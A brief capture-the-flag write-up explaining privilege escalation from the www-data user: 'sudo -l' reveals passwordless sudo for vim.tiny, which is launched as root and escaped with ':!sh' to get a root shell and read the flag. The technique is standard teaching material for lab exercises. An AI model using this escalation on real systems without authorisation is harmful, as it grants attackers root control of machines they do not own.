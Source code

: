 # Challenge (Privilege Escalation)
> This is assuming that you have already gotten interactive shell.

This challenge is created to give attacker and easy way to obtain shell. Because the user `www-data` is given some `sudo` permissions.

You can run below to see what `sudo` permissions your user has.
```sh
$ sudo -l
...
(ALL) NOPASSWD: /usr/bin/vim.tiny
...
```

This means that your user does not need password to run `/usr/bin/vim.tiny` which is `vi`.

So you can run it like this.
```sh
$ sudo /usr/bin/vim.tiny
```

And you will get `vi` which you can run shell from.
```
: !sh
```

And boom! You got root! And you can read the flag at `/root/flag`.
